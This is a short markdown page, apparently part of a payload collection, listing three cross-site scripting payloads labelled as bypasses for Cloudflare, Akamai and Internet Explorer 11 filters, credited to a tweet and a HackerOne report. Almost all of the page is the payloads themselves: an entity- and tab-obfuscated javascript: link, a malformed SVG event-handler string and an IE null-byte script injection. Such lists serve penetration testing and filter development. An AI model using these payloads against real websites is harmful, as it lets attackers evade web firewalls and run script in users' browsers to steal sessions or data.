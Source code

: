 ## Cloudflare XSS Bypass

[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```

## Akamai XSS Bypass

[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)
```html
“><svg/on</script>laod=alert>
```

## IE Bypass

IE 11 Xss Bypass [h1 report](https://hackerone.com/reports/127259) by [sergeym](https://hackerone.com/sergeym)

```html
"</script><script/%00%00v%00%00>document.location.href=location.hash.slice(1)</script>#javascript:alert(document.domain)
```


